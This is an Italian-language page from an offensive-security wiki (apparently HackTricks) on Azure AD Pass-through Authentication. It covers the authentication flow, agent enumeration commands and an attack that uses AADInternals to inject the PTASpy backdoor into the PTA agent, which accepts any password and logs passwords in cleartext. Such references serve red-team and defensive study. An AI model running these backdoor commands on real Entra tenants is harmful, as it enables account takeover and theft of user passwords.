 # Az - PTA - Pass-through Authentication

{{#include ../../../../banners/hacktricks-training.md}}

## Informazioni di base

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra pass-through authentication consente ai tuoi utenti di **accedere sia alle applicazioni on-premises che a quelle basate su cloud utilizzando le stesse password**. Questa funzionalità offre ai tuoi utenti un'esperienza migliore - una password in meno da ricordare, e riduce i costi del supporto IT perché è meno probabile che i tuoi utenti dimentichino come accedere. Quando gli utenti accedono utilizzando Microsoft Entra ID, questa funzionalità convalida le password degli utenti direttamente contro il tuo Active Directory on-premises.

In PTA **le identità** sono **synchronize** ma **le password non lo sono** come in PHS.

L'autenticazione è convalidata nell'AD on-prem e la comunicazione con il cloud avviene tramite un **agente di autenticazione** in esecuzione su un **server on-prem** (non deve essere sul DC on-prem).

### Flusso di autenticazione

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. Per **accedere** l'utente viene reindirizzato a **Azure AD**, dove invia il **nome utente** e la **password**
2. Le **credenziali** sono **crittografate** e messe in una **coda** in Azure AD
3. L'**agente di autenticazione on-prem** raccoglie le **credenziali** dalla coda e le **decrittografa**. Questo agente è chiamato **"Pass-through authentication agent"** o **agente PTA.**
4. L'**agente** **convalida** le credenziali contro l'**AD on-prem** e invia la **risposta** **indietro** a Azure AD che, se la risposta è positiva, **completa l'accesso** dell'utente.

> [!WARNING]
> Se un attaccante **compromette** il **PTA** può **vedere** tutte le **credenziali** dalla coda (in **testo chiaro**).\
> Può anche **convalidare qualsiasi credenziale** su AzureAD (attacco simile a Skeleton key).

### Enumerazione

From Entra ID:
```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
"@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
"value": [
{
"agents": [
{
"externalIp": "20.121.45.57",
"id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
"machineName": "ConnectSync.hacktricks-con.azure",
"status": "active",
"supportedPublishingTypes": [
"authentication"
]
}
],
"displayName": "Default group for Pass-through Authentication",
"id": "d372d40f-3f81-4824-8b9e-6028182db58e",
"isDefault": true,
"publishingType": "authentication"
}
]
}
```
Controlla se l'agente è in esecuzione nel server on-prem:
```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```
## Pivoting

Se hai accesso **admin** al **server Azure AD Connect** con l'**agente PTA** in esecuzione, puoi utilizzare il modulo **AADInternals** per **inserire una backdoor** che **convaliderà TUTTE le password** inserite (quindi tutte le password saranno valide per l'autenticazione):
```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```
> [!NOTE]
> Se l'**installazione fallisce**, è probabile che ciò sia dovuto a [Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe) mancanti.

Questo backdoor farà:

- Creare una cartella nascosta `C:\PTASpy`
- Copiare un `PTASpy.dll` in `C:\PTASpy`
- Iniettare `PTASpy.dll` nel processo `AzureADConnectAuthenticationAgentService`

> [!NOTE]
> Quando il servizio AzureADConnectAuthenticationAgent viene riavviato, PTASpy viene “scaricato” e deve essere reinstallato.

> [!CAUTION]
> Dopo aver ottenuto i **privilegi GA** nel cloud, è possibile **registrare un nuovo agente PTA** e **ripetere** i passaggi **precedenti** per **autenticarsi utilizzando qualsiasi password** e anche, **ottenere le password in chiaro.**

### Seamless SSO

È possibile utilizzare Seamless SSO con PTA, che è vulnerabile ad altri abusi. Controllalo in:

{{#ref}}
seamless-sso.md
{{#endref}}

## Riferimenti

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../../banners/hacktricks-training.md}}
